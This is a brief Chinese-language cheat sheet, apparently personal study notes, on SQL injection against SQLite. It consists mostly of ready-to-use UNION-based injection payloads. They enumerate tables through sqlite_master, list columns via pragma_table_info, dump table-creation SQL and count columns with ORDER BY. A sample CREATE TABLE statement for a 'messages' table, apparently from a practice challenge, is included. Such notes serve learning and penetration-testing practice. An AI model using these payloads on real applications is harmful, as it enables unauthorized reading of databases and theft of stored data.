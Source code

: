 - ### SQLlite注入

  **鉴于SQLlite数据库的特殊性，即只有当前数据库和sqlite_master**

  ```sqlite

  'union select 1,name from sqlite_master where type='table'；--  //查表名    

  'union select 1,name FROM pragma_table_info('messages');--    //查列名

  'union select 1,sql from sqlite_master where type='table';--  //查询sql语句，可看到创建表名的sql语句，可看到里面的列名

  'order by 2--+  //查列数

  ‘union select id, title from messages where shown = true  //查列名的字段

  语句最后跟 limit 0,1 表示从第一行开始，读一行数据 limit 0,2 表示从第一行开始，读两行数据

  ```

  ```sqlite

  CREATE TABLE messages (id text primary key, title text, contents text, shown boolean)  

  //这是sqlite的创建表的语句，其中 id、title、contents、shown是列名 messages是表名**

  ```
